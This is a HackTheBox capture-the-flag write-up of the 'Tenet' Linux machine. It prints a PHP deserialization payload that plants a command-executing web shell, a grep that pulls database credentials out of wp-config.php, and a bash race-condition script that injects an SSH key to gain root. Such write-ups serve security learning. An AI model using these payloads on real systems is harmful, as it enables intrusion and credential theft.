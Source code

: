 ```yaml
---
title: (HTB) - Tenet
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-12 11:33:00 +0200
categories: [HackTheBox, Linux]
tags: [Linux, PHP, Race Condition, Wordpress, Deserialization, Sudo Exploitation, Source Code Review, Information Disclosure, Misconfiguration, Password Reuse]
math: true
mermaid: true
image:
  src: /assets/images/f36818c1af1fbd3b5dda319e9fc701b493bd6815634efe1a07e14428efe4cf7f.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Tenet is medium rated linux box. It's all about deserialization and exploiting race condition on the system level**

# ENUMERATION
## NMAP
```	
Nmap scan report for 10.10.10.223
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## WEBSERVER

![picture 18](/assets/images/1c90381bade01990e5425171c3eb12cba52b8fbf548277c8874045ec8e2ad70b.png)  

We have to add tenet.htb to hosts file! ;)

Seems like Rest API ist activated.

(http://tenet.htb/index.php/wp-json/wp/v2/users)

![picture 19](/assets/images/25d88c7291d76902dd9c7040116b0a6fc3f5ad36fc4e54686143be6986a06ca4.png)  

## Word scraping with CEWL to build a wordlist
Let's scrape the website to find possible passwords (it's worth a try!)
```
cewl http://tenet.htb -m 6 -w passes.txt
```

... but it didn't work however there is a hint on the website

![picture 20](/assets/images/ab1ce18ae61ef1059e4aea8c6978f25a624d8a6d6da49991444932449fc17b99.png)  

## Source Code Review

File `sator.php` can be found on the root of the site, but we cannot read it. If we add `.bak`extension however `http://10.10.10.223/sator.php.bak`:

![picture 21](/assets/images/a5c3918df4a626a1b76545bec976b7974c56111213c2bdc8d57216ab2fa22df7.png)  

In order to successfully exploit the above bug three conditions must be satisfied:

- The application must have a class which implements a PHP magic method (such as __wakeup or __destruct) that can be used to carry out malicious attacks, or to start a “POP chain”.
- All of the classes used during the attack must be declared when the vulnerable unserialize() is being called, otherwise object autoloading must be supported for such classes .
- The data passed to unserialized comes from a file, so a file with serialized data must be present on the server.

Reference: https://notsosecure.com/remote-code-execution-via-php-unserialize/

# Exploiation 
## Deserialization

So let's give it a shot:
```
http://10.10.10.223/sator.php?arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:10:"shell3.txt";s:4:"data";s:4:"test";}
```

File was succesfully written.

![picture 22](/assets/images/10759c486dec0968a4efd079d75f05377f297b7694abbfbfae5e590908869e30.png)  


Now let's write a php file which accepts GET requests and executes system commands:
```
http://10.10.10.223/sator.php?arepo=O:14:%22DatabaseExport%22:2:{s:9:%22user_file%22;s:10:%22shell5.php%22;s:4:%22data%22;s:30:%22%3C?php%20system($_GET[%27cmd%27]);%20?%3E%22;}
```
... which has worked:
![picture 23](/assets/images/0cfede87f997c4d64f7d3ef6ef7ceb328d1ab0602e855356ddbd651858a42898.png)  

We do have command execution:

![picture 25](/assets/images/95dacb1f7a061aa6d0b18d8ef1679d62cdc74c5cc4726ca7cce446edfb4c2012.png)  

Let's get a shell, by encoding simple reverse bash shell:

![picture 26](/assets/images/f5d4405dede3110f9cd113832e6ff3f1f6d8d0351e76ed2b77ff2249beadce8e.png)  

Shell has been spawned:

![picture 27](/assets/images/99c695996d12c0a62bd4cb30ced1ee663a6eaaf5d062ff618ff50dccc9c8d895.png)  

# Privilege Escalation
## Enumeration
While enumerating some credentials were found:
```
www-data@tenet:/var/www/html/wordpress$ cat wp-config.php | grep "DB_USER\|DB_PASSWORD"
<ss$ cat wp-config.php | grep "DB_USER\|DB_PASSWORD"
define( 'DB_USER', 'neil' );
define( 'DB_PASSWORD', 'Opera2112' );
```

This credentials also work for SSH as `neil`.

## SUDOERS
	
After logging in with neil user following entry was discovered after running sudo -l
```
neil@tenet:~$ sudo -l
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

After checking the `/usr/local/bin/enableSSH.sh` script something became clear - we cannot write to the Path of the root, so it is not possible to exploit that so, this were my thoughts:
1. there is to much code for such a simple task
2. it could be a rabbit hole.
	
The 1. though led to thinking it could be something like race condition so let's try that..
## Exploiting a race condition

Create a new key
```
Enter file in which to save the key (/home/neil/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./id_rsa.
Your public key has been saved in ./id_rsa.pub.
The key fingerprint is:
SHA256:SEkHM+vYF1qsiY4vDjapEXQdQR/JC4g1L/xXTYyV+1E neil@tenet
The key's randomart image is:
+---[RSA 2048]----+
|  ooo+Boo +o.    |
| ...+ooX..oo   E |
| . + o=.=. .. .  |
|. . o* B.. . .   |
|.   o.B.S   . .  |
| ..o  ..     .   |
|o+. .            |
|ooo.             |
|.....            |
+----[SHA256]-----+
```

We can see that everytime another file will be created.
```
neil@tenet:/tmp$ echo $(mktemp -u /tmp/ssh-XXXXXXXX)
/tmp/ssh-FVbr7xIX
neil@tenet:/tmp$ echo $(mktemp -u /tmp/ssh-XXXXXXXX)
/tmp/ssh-CxebKjyk
neil@tenet:/tmp$ echo $(mktemp -u /tmp/ssh-XXXXXXXX)
/tmp/ssh-WPULDJQB
neil@tenet:/tmp$ echo $(mktemp -u /tmp/ssh-XXXXXXXX)
/tmp/ssh-lJEyrgOd
```
Since there is little chance to guess it, let's exploit that race condition.

I wrote following script, which spawns 2 threads and it does that 100 times (i had to run the script 2 times )
```
neil@tenet:/tmp/race$ cat race.sh 
#!/bin/bash
for i in {1..100}
do
        sudo /usr/local/bin/enableSSH.sh &
        echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDycGKFZRwjVjHPmg5YoP/VmccRN9wwBqdr/BBX4IxsnmeuHsWplgTMuLWhDzDz5dONNiMNEqK80tnsX1/MT2MxfWG/LGzy9FgNChV9COPJbQpTgWidH771u/IOXJGJKu1neDGl6z90ojR1OXuTAPzhf7sloyxr2k221WMqtguGFrP0JWfr0UZojYLOaEA5bawQ+pJouv9AuqEETX4ZMI/9iyLA41DFMr521waxtALk0R0xxYlomHGC5jby/e5cP9vYURAW3POhTz/L07se2joqkJoHHHj9d6oudhGKSCBJwLpnKPj4+TCdXfd1BhiaLJB/aRmJOjXEsogW8WXvbKSH neil@tenet" | tee /tmp/ssh-* &
done
```

It took lees than 200 iterations to inject the public key into temporary written file. Grep serve just to get rid of output (KSH belongs to the root key and "authorized" belongs to enableSSH.sh output.

![picture 28](/assets/images/b295a7cad8310daf3bfd07446145ab27266897738c0921af959c1a5eeb8ea0a4.png)  

... and ... root! :)
